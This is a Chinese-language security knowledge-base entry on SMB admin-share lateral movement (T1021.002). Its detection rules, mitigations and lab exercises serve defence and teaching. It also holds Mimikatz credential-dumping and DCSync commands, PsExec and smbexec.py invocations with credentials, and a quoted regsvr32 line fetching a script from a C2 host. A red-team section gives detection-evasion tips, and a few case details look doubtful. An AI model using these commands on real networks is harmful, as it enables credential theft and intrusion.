

# SMB/Windows管理共享 (T1021.002)

## 一句话通俗理解

> **利用Windows系统自带的"隐藏共享文件夹"（如ADMIN$），把黑客工具远程复制到目标电脑上执行命令**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用Windows的隐藏管理共享（ADMIN$、C$、IPC$）远程复制文件并执行命令 |
| 为什么危险？ | 不需要额外软件，利用Windows原生功能，且 PsExec 是IT管理员常用工具，难以单纯从工具特征区分 |
| 谁需要关心？ | 域管理员、SOC分析师、AD安全团队 |
| 你的第一步防御 | 监控445端口的横向连接和PSEXESVC服务创建事件 |
| 如果只做一件事 | 在所有非文件服务器上禁用默认管理共享，并监控ADMIN$访问 |
| 速查总结 | SMB管理共享是Windows横向移动最经典的"高速公路"，攻击者拿到管理员凭据后首选路径 |

## 难度等级

⭐⭐ 中级 - 需要Windows域环境基础知识和SMB协议理解

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows共享机制（SMB协议、445端口、共享文件夹概念）
- [ ] Windows管理共享（ADMIN$、C$、IPC$的用途）
- [ ] Windows服务创建机制（SCM、PSEXESVC）
- [ ] 域账户与管理员权限区别

## 技术描述

**SMB/Windows管理共享（T1021.002）** 是MITRE ATT&CK框架中的一种横向移动技术。

**通俗解释：**

Windows系统里有一些"隐藏共享"——就像办公室里有一些只有管理员知道的后门通道。当你用管理员账号登录时，可以通过这些通道（比如ADMIN$）直接进入任何一台Windows电脑的"心脏"：把文件扔进去、远程执行命令。攻击者拿到管理员凭据后，最爱用这个方法：先复制一个恶意程序到目标机器的ADMIN$共享，然后用PsExec或类似工具远程启动它。

**过渡段：** 简单来说，Windows为了让IT管理员方便地批量管理多台电脑，默认开放了这些隐藏共享通道。程序需要向操作系统"借用"管理员凭据，才能访问这些通道。攻击者窃取了管理员凭据后，就相当于拿到了企业网络里所有Windows电脑的万能钥匙——他们可以像IT管理员一样，远程向任何一台电脑推送和执行代码。

**技术原理：**

1. **凭据获取**：攻击者先获取目标环境的管理员凭据（明文密码或NTLM哈希），通常通过凭证转储（T1003）或哈希传递（T1550.002）
2. **连接管理共享**：通过SMB协议（445端口）连接目标主机的ADMIN$或C$共享，使用 `\\目标IP\ADMIN$` 路径
3. **复制服务程序**：将一个可执行文件（如PsExec的服务端PSEXESVC.exe）复制到 `%SystemRoot%` 目录
4. **远程启动服务**：通过SCM（服务控制管理器）远程创建并启动服务，调用复制的程序
5. **命令执行**：通过命名管道（Named Pipe）与远程服务通信，接收执行结果

**用途与影响：**

攻击者使用SMB管理共享进行横向移动，能在不落地（不直接登录目标桌面）的情况下远程执行命令。这种技术被几乎所有主流勒索软件（Conti、LockBit、Ryuk）和APT组织（APT29、FIN7）广泛使用，是Windows域环境中最常见的横向移动手段之一。

## 子技术列表

**该技术没有子技术**

## 攻击流程

### 典型攻击流程

```
窃取管理员凭据 --> 连接SMB管理共享 --> 复制可执行文件 --> 创建远程服务 --> 执行命令并回传结果
```



**步骤详解：**

1. **窃取管理员凭据**
   - 通俗描述：攻击者先从已入侵的机器上提取管理员账号密码或哈希
   - 技术细节：使用Mimikatz的`sekurlsa::logonpasswords`提取LSASS中的凭据，或通过DCSync（T1003.006）获取域管理员哈希
   - 常用工具：Mimikatz、lsassy、secretsdump.py

2. **连接SMB管理共享**
   - 通俗描述：用偷来的凭据通过网络连到目标机器的"隐藏通道"
   - 技术细节：通过SMB协议（TCP 445端口）认证并访问`\\目标IP\ADMIN$`共享，Windows默认开启ADMIN$、C$、IPC$等管理共享
   - 常用工具：net use命令、Impacket的smbexec.py/psexec.py

3. **复制可执行文件**
   - 通俗描述：把要执行的恶意程序丢到目标机器的系统目录
   - 技术细节：将服务端程序（如PSEXESVC.exe）复制到目标的`C:\Windows\`目录，文件名通常伪装成系统服务名
   - 常用工具：copy命令、Impacket自动处理

4. **创建并启动远程服务**
   - 通俗描述：让目标机器"自动运行"刚才丢进去的程序
   - 技术细节：通过RPC调用目标主机的SCM（Service Control Manager），创建服务并设置启动类型为自动
   - 常用工具：sc.exe、PsExec、Impacket

5. **执行命令并清理**
   - 通俗描述：通过程序发送命令、接收结果，完事后销毁证据
   - 技术细节：通过命名管道（如`\pipe\PSEXESVC`）进行双向通信；清理时删除服务和文件
   - 常用工具：PsExec、Cobalt Strike的jump psexec

## 真实案例

### 案例1：APT29在SolarWinds供应链攻击中使用PsExec横向移动

- **时间**: 2020年12月 - 2021年1月
- **目标**: 美国政府机构、关键基础设施供应商、技术公司
- **攻击组织**: APT29（Cozy Bear，俄罗斯SVR关联）
- **手法**: APT29在SolarWinds供应链攻击的后续阶段，使用PsExec通过SMB管理共享向目标环境中的多台主机分发TEARDROP和RAINDROP恶意软件载荷。攻击者首先在初始入侵点获取了管理员凭据，然后通过ADMIN$共享将DLL载荷复制到目标主机的`C:\Windows\`目录，并使用 rundll32.exe 远程加载执行。微软和Mandiant的分析报告显示，APT29在执行SMB管理共享横向移动时采用了节奏控制——每次跳跃间隔数小时甚至数天，以规避检测
- **影响**: 攻击者成功在9个以上美国联邦机构网络中横向移动并窃取了敏感邮件和文档，是2020年最具破坏性的网络间谍行动
- **参考链接**: [Mandiant - SUNBURST Technical Analysis](https://www.mandiant.com/resources/blog/sunburst-additional-technical-details)
  - **数据来源**: 一级

### 案例2：Conti勒索软件使用PsExec进行大规模横向传播

- **时间**: 2021年2月 - 9月（CISA警示期间）
- **目标**: 美国医疗、制造、政府等16个关键基础设施行业
- **攻击组织**: Conti勒索软件团伙（俄罗斯关联）
- **手法**: Conti运营者在获取初始访问权限（通常通过钓鱼或漏洞利用）后，使用Cobalt Strike beacon执行PsExec横向移动。具体流程：先通过`sekurlsa::logonpasswords`提取域管理员凭据，然后用PsExec将Cobalt Strike beacon批量推送到数百台目标主机。CISA在AA21-265A联合警报中明确记录了Conti使用`PsExec.exe \\target -u domain\admin -p password cmd.exe`和Impacket的psexec.py进行大规模横向传播。部分案例显示攻击者在4小时内通过SMB管理共享攻陷了超过400台主机
- **影响**: Ireland卫生部、美国Colonial Pipeline上游供应商等受害，累计勒索金额超过1.5亿美元
- **参考链接**: [CISA Alert AA21-265A - Conti Ransomware](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-265a)
  - **数据来源**: 一级

### 案例3：FIN7利用PsExec部署CARBANAK后门

- **时间**: 2017年 - 2018年（后期被Mandiant跟踪披露）
- **目标**: 美国餐饮连锁、酒店、零售商（Chipotle、Arby's、Chili's等）
- **攻击组织**: FIN7（Carbanak Group，俄罗斯/乌克兰关联）
- **手法**: FIN7在入侵餐饮企业POS网络后，使用PsExec通过SMB管理共享将CARBANAK后门分发到POS终端。攻击者首先通过SQL注入或钓鱼获取初始立足点，然后在AD域中横向移动定位POS控制器，使用PsExec执行`psexec.exe \\pos-server -s cmd.exe /c "regsvr32 /s /n /u /i:http://c2/scr.sct scrobj.dll"`，通过regsvr32加载远程脚本。Mandiant报告显示，FIN7还使用了PsExec的变种——自定义的"PsExec-like"工具以规避标准PSEXESVC特征检测
- **影响**: 超过1500家餐厅受影响，累计窃取超过1500万张信用卡数据，造成数亿美元损失
- **参考链接**: [Mandiant - FIN7 Threat Intelligence](https://www.mandiant.com/resources/blog/fin7-pursuit-apt-criminal-finance)
  - **数据来源**: 一级

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先使用Impacket而非PsExec**
   PsExec会留下明显的PSEXESVC服务特征和事件日志，而Impacket的psexec.py/smbexec.py虽然原理相同，但可以自定义服务名和文件名，规避依赖"PSEXESVC"字符串的检测规则

2. **服务名伪装**
   默认的PSEXESVC服务名极易被检测，在授权测试中可以将服务名修改为看起来合法的名称（如`WindowsUpdateSvc`、`TelemetryService`），但这同样会被EDR基于行为特征识别

3. **凭据准备**
   SMB管理共享横向移动必须具备管理员级别的凭据。可结合Pass-the-Hash使用——只要拥有NTLM哈希即可，无需明文密码。域管哈希通常通过DCSync（`lsadump::dcsync /user:krbtgt`）获取

4. **节奏控制**
   避免短时间内对大量主机执行PsExec——这是Cobalt Strike `jump psexec`批量执行时最容易被SOC发现的特征。建议每次跳跃间隔数分钟，并分散目标IP

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| PsExec | Sysinternals官方远程执行工具，最经典实现 | Windows | [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) |
| Impacket psexec.py | Python实现的PsExec，支持Pass-the-Hash | 跨平台 | [Impacket](https://github.com/fortra/impacket) |
| Impacket smbexec.py | 通过SMB命名管道执行命令，不落地可执行文件 | 跨平台 | [Impacket](https://github.com/fortra/impacket) |
| CrackMapExec | 批量SMB/WinRM/WMI执行框架 | Linux | [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) |
| NetExec | CrackMapExec的继任者，社区维护 | 跨平台 | [NetExec](https://github.com/Pennyw0rth/NetExec) |
| Cobalt Strike | 商业C2框架，内置jump psexec_psh命令 | 跨平台 | [Cobalt Strike](https://www.cobaltstrike.com/) |

### 注意事项

- **避免高并发**：批量执行PsExec会在短时间内产生大量445端口连接和PSEXESVC服务创建，触发EDR告警
- **服务名特征**：默认PSEXESVC服务名是检测规则的高优先级指标，需自定义服务名
- **文件落地**：PSEXESVC.exe会被复制到`C:\Windows\`，留下文件指纹；smbexec.py通过命名管道执行可避免此问题
- **合规边界**：仅在书面授权范围内执行横向移动测试，未经授权的网络扫描和横向移动在中国《网络安全法》和《刑法》第285条下属于违法行为

## 蓝队视角

### 检测要点

1. **PSEXESVC服务创建**
   - 日志来源：Windows系统日志、Sysmon日志
   - 关注字段：服务名包含"PSEXESVC"、服务二进制路径包含`%SystemRoot%\PSEXESVC.exe`
   - 异常特征：在非IT管理员工作时间、从非管理工作站发起的服务创建

2. **SMB管理共享访问**
   - 日志来源：Windows安全日志（事件ID 5140、5145）
   - 关注字段：ShareName为`\\*\ADMIN$`或`\\*\C$`、访问源IP为非管理工作站
   - 异常特征：单个源IP短时间内访问多台主机的ADMIN$共享

3. **445端口异常连接**
   - 日志来源：网络流量日志（防火墙、IDS）
   - 关注字段：源IP、目标IP、连接频率、数据传输量
   - 异常特征：工作站之间的445端口直连（正常情况下工作站不应直接互访445）

### 监控建议

- 部署Sysmon并配置EventID 1（进程创建）监控PSEXESVC.exe和类似服务端程序的创建
- 配置事件ID 7045（服务创建）告警，重点关注服务名包含"PSEXESVC"、"PSEXESVC.EXE"或路径在`%SystemRoot%`下的服务
- 启用Windows高级安全审计中的"对象访问 → 文件共享"和"对象访问 → 详细文件共享"子类别
- 在网络层配置规则检测"工作站到工作站"的445端口连接（正常应为工作站→文件服务器单向）

## 避坑指南

防御最大误区：只监控PsExec.exe进程，忽略Impacket等替代工具——它们同样使用SMB管理共享，但完全不同的执行进程。

## 检测建议

### 网络层检测

**检测方法：** 监控445端口的横向连接模式，重点关注工作站之间的SMB连接（正常应为工作站→文件服务器单向）

**具体规则/命令示例：**

```bash
# 检测工作站间445端口直连（非文件服务器场景）
# 假设10.0.0.0/24是工作站段，10.0.1.0/24是服务器段
tshark -i eth0 -f "tcp port 445" -Y "
  (ip.src >= 10.0.0.1 and ip.src <= 10.0.0.254) and 
  (ip.dst >= 10.0.0.1 and ip.dst <= 10.0.0.254)" -T fields -e ip.src -e ip.dst
```

**示例（Snort/Suricata规则）：**
```
alert tcp $HOME_NET any -> $HOME_NET 445 (msg:" Suspicious SMB Admin Share Access"; \
  content:"|5C 41 44 4D 49 4E 24|"; nocase; \
  pcre:"/\x5cADMIN\$/i"; \
  reference:url,attack.mitre.org/techniques/T1021/002; \
  sid:20210001; rev:1;)
```

### 主机层检测

**检测方法：** 监控PSEXESVC服务创建、ADMIN$共享访问和异常进程创建

**Windows事件ID：**

- 事件ID 7045：服务创建（重点关注PSEXESVC或路径含`%SystemRoot%`的服务）
- 事件ID 5140：网络共享对象被访问（ShareName=`\\*\ADMIN$`）
- 事件ID 5145：网络共享对象被详细访问（关注`\\*\ADMIN$`的写入操作）
- Sysmon EventID 1：进程创建（监控`PSEXESVC.exe`、`remcomsvc`等）
- Sysmon EventID 13：注册表值设置（服务创建）

**具体命令示例：**

```bash
# 查询所有主机的PSEXESVC服务创建事件（需中央日志平台）
# Windows事件日志查询
wevtutil qe System /q:"*[System[(EventID=7045)]] and *[EventData[Data='PSEXESVC']]" /f:text /c:50

# Sysmon日志查询PSEXESVC进程创建
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath "*[System[(EventID=1)]] and *[EventData[Data='PSEXESVC.exe']]" | Select-Object -First 20
```

### 应用层检测

**检测方法：** 在应用层监控SMB协议的命令模式和命名管道通信

**用人话说：**

> PsExec横向移动有三个标志性特征：(1)先建立SMB连接到ADMIN$共享；(2)把一个服务端可执行文件写到`C:\Windows\`目录；(3)通过RPC远程创建服务并启动。这三步缺一不可，所以检测时不要只盯一个点——要关联"ADMIN$访问 + 文件写入 + 服务创建"三件事。另外，Impacket的smbexec.py变种会跳过文件写入步骤，直接通过命名管道执行命令，这种情况下重点看事件ID 5145的命名管道访问（如`\pipe\remcom`、`\pipe\atsvc`、`\pipe\srvsvc`）。

**Sigma规则示例：**

```yaml
title: Suspicious PsExec Service Creation via SMB Admin Share
status: experimental
description: Detects PSEXESVC service creation indicating PsExec-style lateral movement
references:
  - https://attack.mitre.org/techniques/T1021/002/
  - https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-265a
author: SOC Team
date: 2026/07/11
logsource:
  product: windows
  service: system
detection:
  selection_service:
    EventID: 7045
    ServiceName|contains:
      - "PSEXESVC"
      - "RemComSvc"
  selection_share:
    EventID: 5145
    ShareName|contains: "ADMIN$"
    RelativeTargetName|endswith:
      - ".exe"
      - ".dll"
  condition: selection_service or selection_share
falsepositives:
  - Legitimate administrative PsExec usage by IT
  - SCCM or similar deployment tools
level: high
tags:
  - attack.lateral_movement
  - attack.t1021.002
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 禁用非必要主机的默认管理共享

**具体实施步骤：**

1. 评估哪些主机确实需要ADMIN$共享（域控制器、文件服务器、SCCM站点服务器）
2. 在非必要主机上通过注册表禁用默认管理共享：
   ```
   HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters
   AutoShareWks = 0 (DWORD)  # 工作站
   AutoShareServer = 0 (DWORD)  # 服务器
   ```
3. 通过GPO批量下发配置到所有域成员
4. 重启或重启Server服务使配置生效

**配置示例：**
```powershell
# 通过GPO或PowerShell批量禁用管理共享
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\LanmanServer\Parameters" -Name "AutoShareWks" -Value 0
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\LanmanServer\Parameters" -Name "AutoShareServer" -Value 0
Stop-Service -Name LanmanServer -Force
Start-Service -Name LanmanServer
```

### 优先级2：重要措施

**措施名称：** SMB流量访问控制和签名要求

**具体实施步骤：**

1. 在内部防火墙上配置规则，禁止工作站之间直接445端口通信
2. 强制SMB签名（SMB Signing）防止哈希传递相关的SMB中继攻击：
   ```
   GPO路径: 计算机配置 → Windows设置 → 安全设置 → 本地策略 → 安全选项
   "Microsoft 网络客户端: 数字签名通信(始终) = 已启用"
   "Microsoft 网络服务器: 数字签名通信(始终) = 已启用"
   ```
3. 启用SMB加密（Windows Server 2012+），增加SMB流量可见性
4. 部署EDR规则监控PSEXESVC服务创建

### 优先级3：建议措施

**措施名称：** 特权账户管理与PsExec白名单

**具体实施步骤：**

1. 限制域管理员账户登录范围——域管账户仅在域控制器和特权管理工作站（PAW）上使用
2. 实施"分层管理"模型，将管理员账户按层级（Layer 0/1/2）隔离
3. 部署PsExec使用白名单，仅允许特定IT管理员账户在指定管理工作站使用PsExec
4. 定期审计445端口连接和ADMIN$访问日志，建立基线

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1026 | 特权账户管理 | 适用 | 限制管理员凭据在普通工作站的使用范围 |
| M1027 | 密码策略 | 适用 | 强密码策略降低凭据被破解风险 |
| M1041 | 加密敏感信息 | 部分适用 | SMB签名和加密增加攻击难度 |
| M1042 | 禁用或限制功能 | 适用 | 禁用非必要主机的默认管理共享 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| GOAD (Game Of Active Directory) | 虚拟靶场 | 中级 | [GOAD](https://github.com/Orange-Cyberdefense/GOAD) |
| HackTheBox - Active Directory路径 | CTF | 中级 | [HackTheBox](https://hackthebox.com) |
| TryHackMe - Holo Network | 虚拟靶场 | 中级 | [TryHackMe](https://tryhackme.com) |

**所需工具：**

- PsExec.exe（Sysinternals）：基础实验
- Impacket套件：进阶实验（psexec.py、smbexec.py）
- Mimikatz：凭据准备
- Sysmon：检测验证

**环境搭建：**

```bash
# 推荐使用GOAD项目搭建AD实验环境
git clone https://github.com/Orange-Cyberdefense/GOAD.git
cd GOAD
# 按照README说明搭建3台虚拟机的AD环境
```

### 实验1：使用PsExec进行横向移动（初级）

**实验目标：** 理解PsExec的基本原理，观察事件日志特征

**实验步骤：**

1. 在GOAD实验环境中，使用已知的管理员账户凭据
2. 在攻击机上执行：`PsExec.exe \\target -u domain\admin -p password cmd.exe`
3. 在目标机上使用`Get-WinEvent`查询事件ID 7045，确认PSEXESVC服务创建
4. 查询事件ID 5140/5145，确认ADMIN$共享访问
5. 使用Sysmon EventID 1查询PSEXESVC.exe进程创建

**预期结果：** 能在目标机系统日志中观察到完整的三步痕迹：ADMIN$访问 → 文件复制 → 服务创建

**学习要点：** 理解PsExec横向移动的三个可观测阶段，为检测规则设计打基础

### 实验2：使用Impacket smbexec.py绕过PSEXESVC检测（中级）

**实验目标：** 对比PsExec和smbexec.py的日志特征差异，理解检测绕过

**实验步骤：**

1. 使用相同凭据执行Impacket：`python3 smbexec.py domain/admin:password@target`
2. 对比两种工具的事件日志差异，重点关注：
   - 服务名（PSEXESVC vs 自定义服务名）
   - 文件落地（PSEXESVC.exe vs 无文件落地）
   - 命名管道（`\pipe\PSEXESVC` vs `\pipe\remcom`）
3. 修改Sigma检测规则，覆盖两种变体

**预期结果：** smbexec.py不创建PSEXESVC服务，但仍有ADMIN$共享访问和命名管道通信

**学习要点：** 理解"行为特征"比"工具特征"更可靠的检测原理

### 实验3：构建PsExec横向移动检测用例（高级）

**实验目标：** 设计完整的PsExec横向移动检测规则并在实验环境验证

**实验步骤：**

1. 设计关联检测规则：ADMIN$访问（5145） + 服务创建（7045） + 进程创建（Sysmon 1）
2. 使用Splunk/Elastic实现多事件关联查询
3. 分别用PsExec、smbexec.py、CrackMapExec测试规则的覆盖率
4. 模拟合法IT管理员使用PsExec，测试误报率
5. 优化规则阈值和过滤条件

**预期结果：** 能检测三种工具变体，误报率控制在可接受范围

**学习要点：** 掌握多事件关联检测的设计方法

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| SMB | Server Message Block | Windows文件共享协议，就像办公室的"文件传递通道"，运行在445端口 |
| 管理共享 | Admin Share | Windows默认开启的隐藏共享（ADMIN$、C$、IPC$），只有管理员能访问 |
| ADMIN$ | Administrative Share | 指向`C:\Windows\`目录的隐藏共享，攻击者最爱用它投放工具 |
| IPC$ | Inter-Process Communication Share | 用于进程间通信的隐藏共享，常用于建立空会话 |
| PsExec | PsExec | Sysinternals套件中的远程执行工具，通过SMB管理共享工作 |
| SCM | Service Control Manager | Windows服务管理器，负责创建、启动、停止服务 |
| 命名管道 | Named Pipe | 进程间通信机制，PsExec通过它与服务端程序通信 |
| Pass-the-Hash | Pass-the-Hash | 用密码哈希代替密码进行认证，PsExec支持此方式 |

## 认知偏误分析

### 常见认知偏误

| 偏误类型 | 具体表现 | 正确做法 |
|----------|----------|----------|
| 锚定效应 | 检测规则仅盯"PSEXESVC"服务名，认为捕获PsExec即可覆盖所有SMB横向移动 | 应监控ADMIN$共享访问 + 服务创建 + 命名管道通信的组合特征，覆盖Impacket等变种 |
| 确认偏误 | 看到PsExec使用立即判定为攻击，忽略IT管理员合法使用 | 结合使用时间、源主机、用户身份进行基线分析，区分合法与非法使用 |
| 可得性启发 | 因Conti/Ryuk等勒索软件大量使用PsExec，过度关注此技术而忽略WMI、WinRM等横向移动方式 | 建立覆盖所有横向移动技术的检测矩阵，避免单点偏重 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - SMB/Windows Admin Shares (T1021.002)](https://attack.mitre.org/techniques/T1021/002/)
- [MITRE ATT&CK - Remote Services (T1021)](https://attack.mitre.org/techniques/T1021/)
- [Microsoft - PsExec官方文档](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

### 📰 安全报告（真实攻击）

- [CISA Alert AA21-265A - Conti Ransomware](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-265a) - Conti勒索软件使用PsExec横向移动的详细IOC
- [Mandiant - SUNBURST Additional Technical Details](https://www.mandiant.com/resources/blog/sunburst-additional-technical-details) - APT29在SolarWinds攻击中的横向移动分析
- [Mandiant - FIN7 Threat Intelligence](https://www.mandiant.com/resources/blog/fin7-pursuit-apt-criminal-finance) - FIN7使用PsExec部署CARBANAK后门

### 🔧 工具与资源（动手试试）

- [Impacket](https://github.com/fortra/impacket) - 包含psexec.py/smbexec.py的Python套件
- [CrackMapExec / NetExec](https://github.com/Pennyw0rth/NetExec) - 批量SMB横向执行框架
- [GOAD - Game Of Active Directory](https://github.com/Orange-Cyberdefense/GOAD) - AD实验环境
- [Atomic Red Team - T1021.002](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1021.002/T1021.002.md) - 检测规则测试用例

### 📖 学习资料（深入了解）

- [SANS - Detecting PsExec Lateral Movement](https://www.sans.org/blog/psexec-the-ultimate-whitepaper/) - PsExec检测深度白皮书
- [Microsoft - Lateral Movement Detection](https://learn.microsoft.com/en-us/microsoft-365/security/intelligence/) - 微软官方横向移动检测指南
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK可视化工具

## 版本历史

| 版本 | 日期 | 变更内容 | 变更人 | 审核人 |
|------|------|----------|--------|--------|
| v1.0 | 2026-07-11 | 初始入库 | 安全团队 | 知识库维护组 |
